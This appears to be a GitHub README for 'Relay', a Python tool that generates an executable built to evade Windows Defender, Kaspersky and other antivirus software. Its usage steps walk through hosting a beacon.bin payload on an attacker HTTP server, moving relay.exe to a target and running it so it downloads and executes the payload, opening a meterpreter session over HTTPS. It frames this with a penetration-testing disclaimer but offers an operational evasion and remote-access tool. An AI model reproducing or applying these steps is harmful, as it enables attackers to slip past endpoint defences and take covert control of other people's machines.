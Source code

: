## 🔒 Relay: Bypassing Antivirus and Firewall Detection Script

## Description

The "Relay" script is a powerful tool designed to generate an executable file that bypasses Windows Defender and establishes a secure connection using meterpreter over HTTPS. This script automates the process of creating a payload that can be used for various purposes, such as penetration testing and security assessments.

✅ Bypassing Kaspersky, Windows Defender, and other security software

## Features

- ✅ Bypassing Kaspersky, Windows Defender, and other security software :The generated executable is specifically crafted to evade detection by Windows Defender and other antivirus software.
- Meterpreter over HTTPS: The script establishes a connection using meterpreter, providing a versatile and robust framework for interacting with the target system.
- Encrypted Communication: All communication between the attacker and the target system is encrypted using HTTPS, ensuring confidentiality and integrity of the data exchanged.
- Simple Usage: The script prompts the user to enter their IP address, port, and certificate file, making it easy to customize and generate the payload.

## Usage

1. Run the Python script: `python3 relay.py` and follow the on-screen instructions.
2. Enter your IP address and port, when prompted.
3. The script will generate the `beacon.bin` and an executable file named `relay.exe`.
4. On the attacker machine, navigate to the directory containing `beacon.bin`.
5. Start a simple HTTP server using the command: `python3 -m http.server`.
6. Transfer the `relay.exe` file to the target system.
7. On the target system, open a command prompt and navigate to the directory containing `relay.exe`.
8. Run the following command: `relay.exe <attacker_ip> <attacker_port> beacon.bin`. Replace `<attacker_ip>` and `<attacker_port>` with the IP address and port specified during script execution.
9. The target system will download `beacon.bin` from the HTTP server and execute it, establishing a meterpreter session over HTTPS.

**Note:** Ensure that you have the necessary permissions and legal authorization before using this script for any activities.

## Disclaimer

This script is intended for educational and ethical purposes only. The misuse of this script for any unauthorized activities is strictly prohibited. The author is not responsible for any damage or illegal actions caused by the use of this script.

## License

This project is licensed under the [MIT License](LICENSE).
